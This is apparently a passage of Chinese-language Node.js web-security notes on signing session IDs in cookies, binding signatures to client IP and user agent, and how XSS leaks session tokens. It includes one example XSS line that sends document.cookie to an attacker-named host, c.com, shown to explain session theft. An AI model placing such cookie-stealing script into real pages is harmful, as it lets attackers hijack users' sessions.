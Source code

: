 在响应时，设置session值到cookie中或者跳转URL中。
``` javascript
var val = sign(req.sessionID, secret);
res.setHeader('Set-Cookie', cookie.serialize(key, val));
```

接收请求时，检查签名：
``` javascript
// 取出口令部分进行签名，对比用户提交的值
var unsign = function(val, secret) {
  var str = val.slice(0, val.lastIndexOf('.'));
  return sign(str, secret) == val ? str : false;
};
```

将口令进行签名是一个很好的解决方案，但是如果攻击者通过某种方式获取了一个真实的口令和签名，他就能实现身份的伪装。一种方案是将客户端的某些独有信息与口令作为原值，然后签名，这样攻击者一旦不在原始的客户端上进行访问，就会导致签名失败。独有信息包括用户IP和用户代理。

通常来说，将口令存在cookie中不易被人获取，但是一些别的漏洞可能导致这个口令被泄漏，典型的有XSS漏洞。

- XSS漏洞
跨站脚本攻击（Cross Site Scripting），通常是由网站开发者决定哪些脚本可以执行在浏览器端。
例如脚本
``` javascript
location.href = 'http://c.com/?' + document.cookie;
```

这段代码将该用户的cookie提交给了c.com站点，这个站点就是攻击者的服务器，他也就能拿到该用户的session口令。然后在客户端中用这个口令伪造cookie，从而实现伪装用户的身份。
































